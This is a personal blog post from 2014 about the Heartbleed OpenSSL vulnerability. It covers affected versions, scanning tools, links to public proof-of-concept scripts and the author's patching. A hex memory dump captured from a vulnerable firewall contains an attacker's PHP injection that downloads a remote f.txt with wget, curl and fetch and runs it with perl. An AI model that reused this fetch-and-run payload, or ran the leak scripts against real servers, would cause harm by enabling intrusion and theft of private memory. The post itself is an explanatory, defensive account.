 ```yaml
---
layout: post
title: "1f j00 R R34d1N 7h12 m3m0ry j00 R pWN3D"
date: 2014-04-10 12:05:03 -0500
comments: false
categories:
- Networking
- Security
- Programming
- SSL
- ISP
---
```

Another huge blunder this week in the ubiquitous OpenSSL library [secadv](https://www.openssl.org/news/secadv_20140407.txt). This one's called [Heartbleed](http://heartbleed.com/). You can easily check if your services are vulnerable at [filippo.io/Heartbleed](http://filippo.io/Heartbleed/). This one is particularly scary as it allows reading random private memory directly from the server/device/etc. This may include decrypted SSL transactions, certs, private keys, and other random memory. So far I have only seen other SSL requests, and public certificate chains from my own devices.

XKCD has a comic which [explains Heartbleed](http://xkcd.com/1354/) VERY well.

The implications are huge. Luckily it only affects OpenSSL 1.0.1 to 1.0.1f (and some beta 1.0.2 versions.. but you'd never run beta in production right?). 1.0.1g is not affected. Older versions are OK here as well. So my recent push for [Upgraded SSL Ciphers](/2014/01/12/ssl-ciphers/) bit me in the ass. Some of the various devices affected are included in this [advisory from NSCS-FI](https://www.cert.fi/en/reports/2014/vulnerability788210.html). There are a lot of devices which use OpenSSL. There are many, many Linux/BSD distributions which shipped vulnerable OpenSSL packages/libs as well. Again, like the other SSL problems earlier this year, there will be implications from this for a long time because all sorts of embedded systems and devices won't get updated (potentially ever).

If you need to mass-scan your network(s), nmap has a [script for that](https://svn.nmap.org/nmap/scripts/ssl-heartbleed.nse) [docs here](http://nmap.org/nsedoc/scripts/ssl-heartbleed.html).

Here is an interesting chunk of memory pulled from a vulnerable firewall using one of several [widely](https://ccdn.tracetracker.com/ssltest.py) [available](https://gist.github.com/siboulet/10154829) [ssltest.py](https://github.com/musalbas/heartbleed-masstest/blob/master/ssltest.py) POCs. This is someone elses encrypted request body. Someone, or more likely something pretending to be a Googlebot, and sending a php file attachment with some badness in it. I would not recommend running the below hex decoded PHP code in the request, nor downloading the f.txt (and especially not executing it), unless you are a malware researcher.

{% highlight text %}
  0200: 70 61 74 69 62 6C 65 3B 20 47 6F 6F 67 6C 65 62  patible; Googleb
  0210: 6F 74 2F 32 2E 31 3B 20 2B 68 74 74 70 3A 2F 2F  ot/2.1; +http://
  0220: 77 77 77 2E 67 6F 6F 67 6C 65 2E 63 6F 6D 2F 62  www.google.com/b
  0230: 6F 74 2E 68 74 6D 6C 29 0D 0A 43 6F 6E 74 65 6E  ot.html)..Conten
  0240: 74 2D 54 79 70 65 3A 20 61 70 70 6C 69 63 61 74  t-Type: applicat
  0250: 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F 72 6D 2D 75  ion/x-www-form-u
  0260: 72 6C 65 6E 63 6F 64 65 64 0D 0A 43 6F 6E 74 65  rlencoded..Conte
  0270: 6E 74 2D 4C 65 6E 67 74 68 3A 20 32 35 31 0D 0A  nt-Length: 251..
  0280: 0D 0A 3C 3F 70 68 70 20 65 63 68 6F 20 22 43 6F  ..<?php echo "Co
  0290: 6E 74 65 6E 74 2D 54 79 70 65 3A 74 65 78 74 2F  ntent-Type:text/
  02a0: 68 74 6D 6C 5C 72 5C 6E 5C 72 5C 6E 22 3B 65 63  html\r\n\r\n";ec
  02b0: 68 6F 20 22 62 75 6E 34 22 2E 70 68 70 5F 75 6E  ho "bun4".php_un
  02c0: 61 6D 65 28 29 2E 22 73 74 30 70 22 3B 73 79 73  ame()."st0p";sys
  02d0: 74 65 6D 28 22 63 64 20 2F 74 6D 70 3B 77 67 65  tem("cd /tmp;wge
  02e0: 74 20 77 67 65 74 20 68 74 74 70 3A 2F 2F 77 77  t wget http://ww
  02f0: 77 2E 63 6F 72 64 6F 62 79 74 65 2E 63 6F 6D 2F  w.cordobyte.com/
  0300: 66 2E 74 78 74 3B 63 75 72 6C 20 2D 4F 20 68 74  f.txt;curl -O ht
  0310: 74 70 3A 2F 2F 77 77 77 2E 63 6F 72 64 6F 62 79  tp://www.cordoby
  0320: 74 65 2E 63 6F 6D 2F 66 2E 74 78 74 3B 66 65 74  te.com/f.txt;fet
  0330: 63 68 20 68 74 74 70 3A 2F 2F 77 77 77 2E 63 6F  ch http://www.co
  0340: 72 64 6F 62 79 74 65 2E 63 6F 6D 2F 66 2E 74 78  rdobyte.com/f.tx
  0350: 74 3B 70 65 72 6C 20 66 2E 74 78 74 3B 70 65 72  t;perl f.txt;per
  0360: 6C 20 66 2E 74 78 74 3B 72 6D 20 2D 72 66 20 66  l f.txt;rm -rf f
  0370: 2E 2A 22 29 3B 65 78 69 74 3B 20 3F 3E 87 5C 06  .*");exit; ?>.\.
  0380: 85 8C 9C E2 46 93 40 CF 62 D0 F7 E7 B4 4A AB 3A  ....F.@.b....J.:
  0390: 80 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E  ................
{% endhighlight %}

**Update several days later**:

So the majority of the pain is over. Systems are patched and updated. Passwords changed. Certificates reissued (this was surprisingly easy!) and re-installed on various devices. Luckily for my usage, all of my OpenSSL 1.0.1 systems had PFS enabled, so private data should be private.
